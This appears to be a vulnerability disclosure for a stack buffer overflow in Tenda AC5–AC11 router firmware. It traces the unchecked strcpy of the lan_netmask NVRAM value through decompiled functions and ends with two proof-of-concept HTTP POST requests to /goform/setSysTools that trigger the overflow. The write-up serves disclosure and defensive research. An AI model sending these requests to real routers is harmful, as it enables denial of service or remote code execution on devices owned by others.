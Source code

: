 # Tenda Router Vulnerability

This vulnerability exists in  module `remoteWeb` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `sub_80073B88` function.(page  /goform/getSysTools in module remoteWeb)
![pic/Untitled.png](pic/Untitled.png)


In this function, it will use `nvram_get("lan_netmask");` to get an NVRAM variable, which is then placed in a `V3` variable. After that ,it will use `Strcpy (v6, v3);` to put V3 on V6 without any security check.

![pic/Untitled1.png](pic/Untitled1.png)

The  `lan_netmask`  NVRAM variable can be controlled in the `sub_8007DB28` function.

You can see that it's assigned by `v12`.

![pic/Untitled2.png](pic/Untitled2.png)

Initially `v12` is what we inputed, so the `lan_netmask` NVRAM variable becomes manageable.

`sub_800119BC ("lan_netmask", V12)`  is required to return 0 in order to set the lan_netmask NVRAM variable properly.

![pic/Untitled3.png](pic/Untitled3.png)

In the function `sub_800119BC`, it will first get the original NVRAM variable of `lan_netmask` and compare it with V2. In the `strcmp` function, if two arguments are the same, it returns 0. Therefore, if V2 is different from the original value of the NVRAM variable `lan_netmask`, the function `sub_800119BC` will return 0.

At this point, the NVRAM variable `lan_netmask` has been successfully controlled, and then we need to determine how to jump to `sub_80073B88` to trigger the vulnerability.

By looking at the xrefs to  the function `sub_80073B88` ，you can find such a chain of program calls.

`cgi_lib_set_remote_info` → `sub_80073D0C`→`sub_80073B88`

![pic/Untitled4.png](pic/Untitled4.png)
![pic/Untitled5.png](pic/Untitled5.png)



For the process `LABEL_14` in the `cgi_lib_set_remote_info` function, simply make the `remoteWebEn` input false and set a remote administration Web port that is not its own. For example, 9999.
![pic/Untitle6.png](pic/Untitled6.png)
![pic/Untitled7.png](pic/Untitled7.png)



Thus, by first setting `lanMask` in the lanCfg module of  `/goform/setSysTools`, and then setting `remoteWebEn` and `remoteWebPort` in the remoteWeb module of `/goform/setsystools`, An attacker can easily use elaborate overflow data to perform a denial-of-service attack or remote code execution.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=remoteWeb&remoteWebEn=true&remoteWebType=any&remoteWebIP=&remoteWebPort=9999
```